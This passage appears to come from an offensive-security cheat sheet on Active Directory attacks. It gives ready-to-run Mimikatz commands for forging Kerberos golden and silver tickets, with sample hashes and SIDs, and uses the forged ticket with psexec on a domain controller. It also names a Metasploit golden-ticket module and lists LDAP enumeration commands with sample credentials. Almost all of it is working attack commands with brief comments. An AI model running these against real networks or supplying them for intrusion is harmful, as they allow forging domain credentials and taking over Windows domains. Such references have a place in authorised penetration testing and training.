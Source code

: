 # You can now verify that your ticket is in your cache 
powershell.exe -c "klist"
# Verify that golden ticket is working
dir \\DC\C$
psexec.exe \\DC cmd.exe

# Purge the currently cached kerberos ticket
kerberos::purge 

#metasploit module can also be used for golden ticket, it loads the ticket into given session
post/windows/escalate/golden_ticket 

# Silver Ticket
# Silver Ticket allows escalation of privileges on DC
# /target t he server/computer name where the service is hosted (ex: share.server.local, sql.server.local:1433, ...)
# /service - The service name for the ticket (ex: cifs, rpcss, http, mssql, ...)

# Examples
kerberos::golden /user:morph3 /domain:domain /sid:domain-sid /target:evilcorp-sql102.evilcorp.local.1433 /service:MSSQLSvc /rc4:service-hash /ptt /id:1103
sqlcmd -S evilcorp-sql102.evilcorp.local
select SYSTEM_USER;
GO

kerberos::golden /user:JohnDoe /id:500 /domain:targetdomain.com /sid:S-1-5-21-1234567890-123456789-1234567890 /target:targetserver.targetdomain.com /rc4:d7e2b80507ea074ad59f152a1ba20458 /service:cifs /ptt
</code></pre>


# AD Attacks
##  &nbsp;&nbsp;&nbsp;&nbsp; Enumeration
<pre class="prettyprint linenums:"><code class="language-py"># Basic ldap enumeration
enum4linux -a 192.168.1.2
python windapsearch.py -u morph3 -p morph3 -d evil.corp --dc-ip 192.168.1.2
python ad-ldap-enum.py -d contoso.com -l 10.0.0.1 -u Administrator -p P@ssw0rd
</code></pre>
